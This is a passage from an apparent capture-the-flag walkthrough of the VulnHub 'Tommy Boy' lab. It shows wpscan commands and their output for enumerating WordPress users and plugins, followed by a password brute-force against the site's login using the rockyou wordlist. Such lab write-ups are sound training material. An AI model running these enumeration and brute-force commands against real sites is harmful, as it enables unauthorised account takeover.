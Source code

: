	[+] tommy
	 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
	 | Confirmed By: Login Error Messages (Aggressive Detection)
	```
	- Store them in a wordlist
7. Enumerate wp plugins
	```
	wpscan --no-update --disable-tls-checks --plugins-detection aggressive --plugins-version-detection aggressive --url http://tommyboy/prehistoricforest/ -e ap -f cli-no-color 2>&1 | tee "/root/vulnHub/TommyBoy1/192.168.56.129/scans/tcp80/tcp_80_http_wpscan_plugin_enum.txt"
	```
	```
	[i] Plugin(s) Identified:

	[+] akismet
	 | Location: http://tommyboy/prehistoricforest/wp-content/plugins/akismet/
	 | Latest Version: 4.2.1
	 | Last Updated: 2021-10-01T18:28:00.000Z
	 |
	 | Found By: Known Locations (Aggressive Detection)
	 |  - http://tommyboy/prehistoricforest/wp-content/plugins/akismet/, status: 403
	 |
	 | The version could not be determined.
	```
	- Not exploitable
8. Bruteforce
	```
	wpscan --no-update --disable-tls-checks --wp-content-dir wp-admin --url http://tommyboy/prehistoricforest/ --usernames usernames.txt --passwords /usr/share/wordlists/rockyou.txt -f cli-no-color 2>&1 | tee "/root/vulnHub/TommyBoy1/192.168.56.129/scans/tcp80/tcp_80_http_wpscan_bruteforce.txt"
	```
9. While bruteforcing, look for useful information in the wordpress blog
10. Found 2nd Flag